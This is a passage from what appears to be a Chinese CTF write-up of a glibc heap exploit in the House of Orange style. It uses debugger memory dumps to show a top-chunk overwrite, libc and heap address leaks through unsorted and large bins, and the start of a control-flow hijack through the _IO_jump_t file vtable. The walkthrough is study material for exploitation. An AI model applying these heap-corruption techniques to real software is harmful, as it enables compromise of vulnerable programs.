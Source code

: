 ```python
0x556ecb079080:	0x4242424242424242	0x4242424242424242
0x556ecb079090:	0x4242424242424242	0x4242424242424242
0x556ecb0790a0:	0x4242424242424242	0x4242424242424242
0x556ecb0790b0:	0x0000000000000000	0x0000000000000021
0x556ecb0790c0:	0x0000002000000002	0x0000000000000000
0x556ecb0790d0:	0x0000000000000000	0x0000000000000f31 => top chunk size = 0xf31
0x556ecb0790e0:	0x0000000000000000	0x0000000000000000
0x556ecb0790f0:	0x0000000000000000	0x0000000000000000
```
然后申请一个更大的 chunk,使原来的top chunk 放入 Unsorted bin:
为什么这个 bin 大小为0xed0 呢？
[+] unsorted_bins[0]: fw=0x556ecb079110, bk=0x556ecb079110
 →   Chunk(addr=0x556ecb079120, size=0xed0, flags=PREV_INUSE)
然后我们申请一个 largechunk，会从 unsorted bin 中割出来

```python
gef➤  x/16gx 0x556ecb079140-0x10
0x556ecb079130:	0x0000000000000000	0x0000000000000411
0x556ecb079140:	0x00007f682d805178	0x00007f682d805188 => fd bk 
0x556ecb079150:	0x0000556ecb079130	0x0000556ecb079130
0x556ecb079160:	0x0000000000000000	0x0000000000000000
0x556ecb079170:	0x0000000000000000	0x0000000000000000
0x556ecb079180:	0x0000000000000000	0x0000000000000000
0x556ecb079190:	0x0000000000000000	0x0000000000000000
0x556ecb0791a0:	0x0000000000000000	0x0000000000000000
```
```
[+] unsorted_bins[0]: fw=0x556ecb079560, bk=0x556ecb079560
 →   Chunk(addr=0x556ecb079570, size=0xa80, flags=PREV_INUSE)
```
仅修改 chunk 的部分，通过 see 就能得到 unsorted bin 的头了
>>> hex(0x00007f682d805178-0x00007f682d440000)
'0x3c5178'
通过计算得到 libc 基址。
我们通过写入0x10,再 see 就可以得到 large chunk 的 fd_nextsize,从而泄露 heap 基址
```python
gef➤  x/16gx 0x556ecb079140-0x10
0x556ecb079130:	0x0000000000000000	0x0000000000000411
0x556ecb079140:	0x7878787878787878	0x7878787878787878
0x556ecb079150:	0x0000556ecb079130	0x0000556ecb079130 => fd_nextsize bk_nextsize
0x556ecb079160:	0x0000000000000000	0x0000000000000000
```
>>> hex(0x0000556ecb079130-0x0000556ecb079000)
'0x130'
计算得到 heap 基址。
接下来我们劫持控制流
```python
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
```